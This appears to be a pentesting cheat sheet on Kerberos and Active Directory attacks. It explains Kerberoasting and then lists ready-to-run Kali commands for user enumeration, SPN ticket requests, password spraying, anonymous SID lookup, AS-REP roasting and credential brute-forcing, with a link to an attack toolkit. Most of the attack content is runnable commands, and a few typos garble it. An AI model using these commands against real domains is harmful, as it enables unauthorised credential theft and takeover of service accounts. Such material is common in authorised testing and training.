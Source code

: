 #### Kerberoasting

Kerberoasting main goal is to get access and control service accounts on Windows that has AD installed. It relies on requesting service tickets for service account service principal names (SPNs). The tickets are encrypted with the password of the service account associated with the SPN, meaning that once you have extracted the service tickets using a tool like Mimikatz, you can crack the tickets to obtain the service account password using offline cracking tools. Kerberoasting can be summarized in the below steps:

1. Scan Active Directory for user accounts with service principal names (SPNs) set.
2. Request service tickets using the SPNs.
3. Extract the service tickets from memory and save to a file.
4. Conduct an offline brute-force attack against the passwords in the service tickets.

Below is the main repo for the toolkit used in Kerberoasting attacks.

```
https://github.com/nidem/kerberoast
```

**Enumerating usernames and Tickets on Kereberos** \[1]

```
<root@kali:./kerbrute_linux_amd64 userenum -d pentesting.local –dc [ip] [path-to-usernames-wordlist]>
```

\[2]

```
./GetUserSPNs.py -request domain/username
```

**Check if a user among users in Active directory has a specified password in the input**\[Password Spray]

```
<root@kali:./kerbrute_linux_amd64 passwordspray -v -d pentesting.local –dc [ip] [users-list.txt] [the password]>
```

\#or

```
<root@kali:python3 /usr/share/doc/python3-impacket/examples/lookupsid.py anonymous@10.10.171.0 | tee usernames>
```

**Getting password hashes and TGTs for identified users in the previous Kerebros enumeration** \[ASREP ROASTING]

```
<root@kali:python3 GetNPUsers.py -dc-ip [ip] pentesting.local/ -usersfile [list-of-found-users-from-command-above]>
```

**Brute forcing usernames and passwords with Kereberos**

```
<root@kali:python kerbrute.py -domain pentesting.local -users users.txt -passwords passwords.txt -outputfile passwords-found.txt>
```
